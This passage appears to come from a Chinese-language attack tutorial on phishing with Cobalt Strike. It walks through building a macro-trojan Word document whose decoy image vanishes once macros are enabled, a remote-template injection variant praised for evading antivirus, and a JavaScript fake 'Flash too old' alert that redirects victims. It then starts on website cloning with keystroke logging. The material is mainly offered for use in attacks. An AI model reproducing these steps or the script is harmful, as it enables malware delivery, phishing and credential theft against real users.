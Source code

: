 ![](https://mmbiz.qpic.cn/mmbiz_png/96Koibz2dODta5lbTicVkIpB3XzxAEfyBe9ria0sLYGFGfrKTo0Jew1X29e1FqQKLPWd1qj3ExxSHsJgJicwlq9KJw/640?wx_fmt=png)

然后点击图像属性，设置成我们做好的图片，然后点击宏创建宏，cs 生成宏木马

![](https://mmbiz.qpic.cn/mmbiz_png/96Koibz2dODta5lbTicVkIpB3XzxAEfyBeial9o4NLcib3W3RMOCrOeyz8DLVCKxEv8h5NMSEL8LuiaEzCK4uItjDGQ/640?wx_fmt=png)

复制粘贴，在 Auto_Open（）函数首部编写代码，设置图片位置为 0 高度为 0 让宏运行后 doc 上图片消失，然后保存，office 马就制作好了

```
window.alert = function(name) {
   var iframe = document.createElement("IFRAME");
   iframe.style.display="none";
   iframe.setAttribute("src",'data:text/plain,');
   document.documentElement.appendChild(iframe);
   window.frames[0].window.alert(name);
   iframe.parentNode.removeChild(iframe);
}
alert("您的flash版本过低，尝试升级后访问该页面！");
window.location.href="http://www.xxx.com"
```

![](https://mmbiz.qpic.cn/mmbiz_png/96Koibz2dODta5lbTicVkIpB3XzxAEfyBexGsnqyexc0uEWdiciceX5sCwO1icljX8tEKP3FicN0XCMRPIZSbxeib6J9A/640?wx_fmt=png)

成品展示：

![](https://mmbiz.qpic.cn/mmbiz_png/96Koibz2dODta5lbTicVkIpB3XzxAEfyBeR0aoY9Vl9oaJoRkcYOdIo5mtPSSIUv4JZePX8xOnmeFXP6rQ5nobibQ/640?wx_fmt=png)

那么点击启用宏，图片就好消失，显示出正常的文件来。

还有一种是远程加载的方式，先创建一个带有宏木马的文档另存为 dotm 后缀当成模板，放在远程服务器上，开启 http 服务，然后再新建一个模板 word，改后缀改成 zip，然后解压。

![](https://mmbiz.qpic.cn/mmbiz_png/96Koibz2dODta5lbTicVkIpB3XzxAEfyBeRibgKTkB24sUePxOBWXdiapZb0vAz6j9WtQFkPNfqPicfdicBOqwJebVag/640?wx_fmt=png)

然后找到这个文件 settings.xml.rels，编辑

![](https://mmbiz.qpic.cn/mmbiz_png/96Koibz2dODta5lbTicVkIpB3XzxAEfyBewMHb2k3Biavt8axdMDgicm3KC6YL8s2TfnGVNATH1xyKwXMt0xwfb0Uw/640?wx_fmt=png)

替换成我们远程的宏木马文件的链接：

![](https://mmbiz.qpic.cn/mmbiz_png/96Koibz2dODta5lbTicVkIpB3XzxAEfyBeebicGOdBWH0EzOHVSVfCHLbC1WibY2sSvKK82fIXia72TSAclRiboYSJTw/640?wx_fmt=png)

然后再把它压缩了，文件后缀又改回成 docx，那么就成了，这种免杀效果要好一点，远程加载嘛。

7. 伪造网站钓鱼
---------

那么我们先来看 cs 中的 clone web 的模块

![](https://mmbiz.qpic.cn/mmbiz_png/96Koibz2dODta5lbTicVkIpB3XzxAEfyBegPN305cnqB3yrgT0EmoymWH5oLm4hRs6yc44kkwluQKadLypib5tulA/640?wx_fmt=png)

填入克隆网站的 url，可以选择进行键盘记录，然后点击就能克隆，但是有些网站也克隆不了，受到协议的保护，那么克隆好之后就可以点击进行管理

![](https://mmbiz.qpic.cn/mmbiz_png/96Koibz2dODta5lbTicVkIpB3XzxAEfyBec3msbbNWQES55oibmTBAa4UVTJa2w3lPVcTjUe1npZfvIFsBLiaZUlwA/640?wx_fmt=png)

那么就来讲讲 cs 中的邮件钓鱼板块

